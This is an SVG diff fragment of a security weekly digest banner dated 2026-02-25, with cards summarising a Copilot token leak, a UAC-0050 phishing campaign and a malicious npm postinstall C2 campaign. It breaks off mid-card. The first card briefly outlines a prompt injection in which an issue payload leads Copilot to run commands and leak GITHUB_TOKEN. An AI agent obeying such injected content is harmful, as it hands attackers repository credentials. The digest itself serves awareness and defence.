

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630" width="1200" height="630" role="img" aria-label="Tech Security Weekly Digest February 25 2026: RoguePilot GitHub Copilot token leak, UAC-0050 European finance RMS malware, Malicious Next.js C2 supply chain attack, Apple SALAD LLM speech gap research">
  <defs>
    <linearGradient id="bgSpread" x1="0%" y1="0%" x2="100%" y2="100%">
      <stop offset="0%" stop-color="#0A1226" />
      <stop offset="55%" stop-color="#0D1530" />
      <stop offset="100%" stop-color="#131038" />
    </linearGradient>
    <linearGradient id="cardA" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#2A0F16" />
      <stop offset="100%" stop-color="#1E0A12" />
    </linearGradient>
    <linearGradient id="cardB" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#2A180A" />
      <stop offset="100%" stop-color="#1E1006" />
    </linearGradient>
    <linearGradient id="cardC" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#1A0F2A" />
      <stop offset="100%" stop-color="#110A1E" />
    </linearGradient>
    <linearGradient id="cardD" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#0E2038" />
      <stop offset="100%" stop-color="#0A1830" />
    </linearGradient>
    <linearGradient id="tokenGrad" x1="0%" y1="0%" x2="100%" y2="100%">
      <stop offset="0%" stop-color="#E63946" />
      <stop offset="100%" stop-color="#7A1D00" />
    </linearGradient>
    <radialGradient id="glowRed" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#E63946" stop-opacity="0.5" />
      <stop offset="100%" stop-color="#E63946" stop-opacity="0" />
    </radialGradient>
    <radialGradient id="glowAmber" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#FFB703" stop-opacity="0.5" />
      <stop offset="100%" stop-color="#FFB703" stop-opacity="0" />
    </radialGradient>
    <radialGradient id="glowPurple" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#C026D3" stop-opacity="0.45" />
      <stop offset="100%" stop-color="#C026D3" stop-opacity="0" />
    </radialGradient>
    <radialGradient id="glowBlue" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#3A86FF" stop-opacity="0.45" />
      <stop offset="100%" stop-color="#3A86FF" stop-opacity="0" />
    </radialGradient>
    <pattern id="dotGrid" x="0" y="0" width="40" height="40" patternUnits="userSpaceOnUse">
      <circle cx="20" cy="20" r="0.8" fill="#2A3256" opacity="0.55" />
    </pattern>
    <filter id="softShadow" x="-10%" y="-10%" width="130%" height="130%">
      <feGaussianBlur in="SourceAlpha" stdDeviation="2.6" />
      <feOffset dx="1" dy="3" />
      <feComponentTransfer>
        <feFuncA type="linear" slope="0.55" />
      </feComponentTransfer>
      <feMerge>
        <feMergeNode />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
    <filter id="textShadow" x="-5%" y="-5%" width="110%" height="110%">
      <feGaussianBlur in="SourceAlpha" stdDeviation="1.2" />
      <feOffset dx="0" dy="1.5" />
      <feComponentTransfer>
        <feFuncA type="linear" slope="0.8" />
      </feComponentTransfer>
      <feMerge>
        <feMergeNode />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
  </defs>
  <rect width="1200" height="630" fill="url(#bgSpread)" />
  <rect width="1200" height="630" fill="url(#dotGrid)" />
  <circle cx="320" cy="220" r="130" fill="url(#glowRed)">
    <animate attributeName="opacity" values="0.5;0.85;0.5" dur="6.4s" repeatCount="indefinite" />
  </circle>
  <circle cx="900" cy="220" r="130" fill="url(#glowAmber)">
    <animate attributeName="opacity" values="0.45;0.8;0.45" dur="5.6s" repeatCount="indefinite" />
  </circle>
  <circle cx="320" cy="480" r="130" fill="url(#glowPurple)">
    <animate attributeName="opacity" values="0.4;0.75;0.4" dur="7.0s" repeatCount="indefinite" />
  </circle>
  <circle cx="900" cy="480" r="130" fill="url(#glowBlue)">
    <animate attributeName="opacity" values="0.4;0.72;0.4" dur="6.2s" repeatCount="indefinite" />
  </circle>
  <rect x="0" y="0" width="1200" height="56" fill="#050813" opacity="0.92" />
  <text x="36" y="36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="18" font-weight="700" fill="#8FB8FF" letter-spacing="2.5">WEEKLY DIGEST</text>
  <text x="1164" y="36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="15" font-weight="600" fill="#7DA3D9" letter-spacing="1.5" text-anchor="end">2026.02.25</text>
  <rect x="0" y="54" width="1200" height="2" fill="#F87171" opacity="0.85">
    <animate attributeName="opacity" values="0.4;1;0.4" dur="4.8s" repeatCount="indefinite" />
  </rect>
  <g transform="translate(32,80)">
    <rect x="0" y="0" width="564" height="248" rx="14" fill="url(#cardA)" stroke="#E63946" stroke-width="1.6" opacity="0.97" />
    <rect x="0" y="0" width="6" height="248" fill="#E63946" />
    <rect x="0" y="0" width="564" height="4" fill="#E63946" opacity="0.7" />
    <g transform="translate(20,18)">
      <rect x="0" y="0" width="40" height="40" rx="6" fill="#E63946" opacity="0.2" />
      <text x="20" y="28" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="22" font-weight="900" fill="#F87171">01</text>
    </g>
    <g filter="url(#textShadow)">
      <text x="74" y="36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#F87171" letter-spacing="2.4">CRITICAL  /  AI ABUSE</text>
      <text x="74" y="58" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="800" fill="#F5F7FA">RoguePilot: Copilot Token Leak</text>
    </g>
    <text x="20" y="102" font-family="Inter, Helvetica, Arial, sans-serif" font-size="14" font-weight="500" fill="#FBB6BD">GitHub Codespaces Copilot RCE exfiltrates GITHUB_TOKEN</text>
    <g transform="translate(24,118)" filter="url(#softShadow)">
      <rect x="0" y="0" width="160" height="96" rx="6" fill="#0A0614" stroke="#E63946" stroke-width="1.4" />
      <rect x="0" y="0" width="160" height="18" rx="6" fill="#1A0010" />
      <circle cx="12" cy="9" r="3.5" fill="#FF5F57" />
      <circle cx="26" cy="9" r="3.5" fill="#FEBC2E" />
      <circle cx="40" cy="9" r="3.5" fill="#28C840" />
      <text x="8" y="34" font-family="Inter, monospace" font-size="8" fill="#F87171">Issue payload injected</text>
      <text x="8" y="48" font-family="Inter, monospace" font-size="8" fill="#FBB6BD">Copilot executes cmd</text>
      <text x="8" y="62" font-family="Inter, monospace" font-size="8" fill="#FFFFFF" font-weight="700">GITHUB_TOKEN: leaked</text>
      <text x="8" y="76" font-family="Inter, monospace" font-size="8" fill="#F87171">RCE: no user action</text>
      <text x="8" y="90" font-family="Inter, monospace" font-size="8" fill="#FBB6BD">src: The Hacker News</text>
    </g>
    <g transform="translate(200,122)">
      <rect x="0" y="0" width="136" height="66" rx="6" fill="url(#tokenGrad)" opacity="0.9" />
      <text x="68" y="18" text-anchor="middle" font-family="Inter, monospace" font-size="9" font-weight="700" fill="#FFFFFF">ATTACK CHAIN</text>
      <text x="8" y="32" font-family="Inter, monospace" font-size="8" fill="#FFD5D8">Issue to Copilot to RCE</text>
      <text x="8" y="46" font-family="Inter, monospace" font-size="8" fill="#FFD5D8">0-click exfiltration</text>
      <text x="8" y="60" font-family="Inter, monospace" font-size="8" fill="#FFFFFF" font-weight="600">Token scope: P0 patch</text>
    </g>
    <g transform="translate(430,130)" filter="url(#softShadow)">
      <rect x="0" y="0" width="120" height="100" rx="10" fill="#1E0A14" stroke="#E63946" stroke-width="1.8" />
      <text x="60" y="24" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" letter-spacing="2" fill="#F87171">SEVERITY</text>
      <text x="60" y="62" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="28" font-weight="900" fill="#F5F7FA">P0</text>
      <text x="60" y="84" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="600" fill="#FBB6BD">Patch NOW</text>
    </g>
    <g fill="#F87171">
      <circle cx="530" cy="26" r="1.4">
        <animate attributeName="opacity" values="0.2;1;0.2" dur="1.8s" repeatCount="indefinite" />
      </circle>
      <circle cx="546" cy="26" r="1.4">
        <animate attributeName="opacity" values="0.2;1;0.2" dur="1.4s" begin="0.3s" repeatCount="indefinite" />
      </circle>
    </g>
  </g>
  <g transform="translate(612,80)">
    <rect x="0" y="0" width="556" height="248" rx="14" fill="url(#cardB)" stroke="#FFB703" stroke-width="1.6" opacity="0.97" />
    <rect x="0" y="0" width="6" height="248" fill="#FFB703" />
    <rect x="0" y="0" width="556" height="4" fill="#FFB703" opacity="0.7" />
    <g transform="translate(20,18)">
      <rect x="0" y="0" width="40" height="40" rx="6" fill="#FFB703" opacity="0.2" />
      <text x="20" y="28" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="22" font-weight="900" fill="#FFB703">02</text>
    </g>
    <g filter="url(#textShadow)">
      <text x="74" y="36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#FFB703" letter-spacing="2.4">HIGH  /  APT  /  FINANCE</text>
      <text x="74" y="58" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="800" fill="#F5F7FA">UAC-0050: Finance RMS Attack</text>
    </g>
    <text x="20" y="102" font-family="Inter, Helvetica, Arial, sans-serif" font-size="14" font-weight="500" fill="#FFD58A">Russia-linked APT spear-phishes EU legal counsel</text>
    <g transform="translate(24,118)" filter="url(#softShadow)">
      <rect x="0" y="0" width="152" height="90" rx="6" fill="#1A0F02" stroke="#FFB703" stroke-width="1.4" />
      <path d="M0 0 L76 46 L152 0" stroke="#FFD58A" stroke-width="1.2" fill="none" opacity="0.7" />
      <text x="12" y="58" font-family="Inter, monospace" font-size="8" fill="#FFD58A">from: court.ua.gov.net</text>
      <text x="12" y="70" font-family="Inter, monospace" font-size="8" fill="#FFD58A">attach: legal_notice.zip</text>
      <text x="12" y="82" font-family="Inter, monospace" font-size="8" font-weight="700" fill="#FFFFFF">[RMS DROPPER]</text>
      <g transform="translate(130,80)" stroke="#FFB703" stroke-width="2" fill="none">
        <path d="M0 -18 L0 0 Q0 8 -7 8 Q-14 8 -14 0" />
        <circle cx="0" cy="-20" r="2" fill="#FFB703" />
      </g>
    </g>
    <g transform="translate(196,128)" filter="url(#softShadow)">
      <rect x="0" y="0" width="116" height="72" rx="8" fill="#120C02" stroke="#FFB703" stroke-width="1.4" />
      <text x="58" y="20" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" letter-spacing="2" fill="#FFD58A">TARGET</text>
      <text x="58" y="40" text-anchor="middle" font-family="Inter, monospace" font-size="11" font-weight="800" fill="#F5F7FA">EU Finance</text>
      <text x="58" y="56" text-anchor="middle" font-family="Inter, monospace" font-size="9" fill="#FFD58A">Legal Counsel</text>
      <circle cx="104" cy="14" r="4" fill="#FFB703">
        <animate attributeName="opacity" values="0.3;1;0.3" dur="1.8s" repeatCount="indefinite" />
      </circle>
    </g>
    <g transform="translate(420,130)" filter="url(#softShadow)">
      <rect x="0" y="0" width="120" height="100" rx="10" fill="#1E1006" stroke="#FFB703" stroke-width="1.8" />
      <text x="60" y="24" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" letter-spacing="2" fill="#FFB703">THREAT</text>
      <text x="60" y="58" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="22" font-weight="900" fill="#F5F7FA">UAC</text>
      <text x="60" y="80" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="16" font-weight="800" fill="#FFD58A">-0050</text>
    </g>
  </g>
  <g transform="translate(32,348)">
    <rect x="0" y="0" width="564" height="242" rx="14" fill="url(#cardC)" stroke="#C026D3" stroke-width="1.6" opacity="0.97" />
    <rect x="0" y="0" width="6" height="242" fill="#C026D3" />
    <rect x="0" y="0" width="564" height="4" fill="#C026D3" opacity="0.7" />
    <g transform="translate(20,18)">
      <rect x="0" y="0" width="40" height="40" rx="6" fill="#C026D3" opacity="0.2" />
      <text x="20" y="28" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="22" font-weight="900" fill="#E879F9">03</text>
    </g>
    <g filter="url(#textShadow)">
      <text x="74" y="36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#E879F9" letter-spacing="2.4">CRITICAL  /  SUPPLY CHAIN</text>
      <text x="74" y="58" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="800" fill="#F5F7FA">Malicious Next.js C2 Campaign</text>
    </g>
-     <text x="20" y="102" font-family="Inter, Helvetica, Arial, sans-serif" font-size="14" font-weight="500" fill="#F0ABFC">Fake repo npm postinstall beacons C2 — developer targets</text>
+     <text x="20" y="102" font-family="Inter, Helvetica, Arial, sans-serif" font-size="14" font-weight="500" fill="#F0ABFC">Fake repo npm postinstall beacons C2 -- developer targets</text>
